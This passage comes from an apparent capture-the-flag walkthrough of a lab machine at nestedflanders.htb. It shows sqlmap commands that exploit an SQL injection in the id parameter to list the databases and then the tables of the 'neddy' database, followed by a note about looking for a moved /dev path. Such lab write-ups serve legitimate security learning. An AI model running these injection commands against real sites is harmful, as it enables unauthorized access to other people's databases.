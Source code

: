 

    root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch --dbs
    ...[snip]...
    available databases [2]:
    [*] information_schema
    [*] neddy



List the tables in the user database, neddy:



    root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch -D neddy --tables
    ...[snip]...
    [11 tables]
    +--------------+
    | config       |
    | customers    |
    | employees    |
    | filepath     |
    | idname       |
    | offices      |
    | orderdetails |
    | orders       |
    | payments     |
    | productlines |
    | products     |
    +--------------+



This is already looking like a lot to go through. I'm going to stop
there and come back if I can't find anything else (which I will), or
when I have specific questions to ask the database.

### Find Source

#### Background

Taking a break from the blind SQLI, there's another vulnerability. The
`/dev` path says it's been moved to another server. I failed to find any
subdomains for dev, but I'm going to approach this from a different
direction. If dev were hosted on a different subdomain, but on this same
host, what would that look like? I'd guess that the directory structure
would look something like:
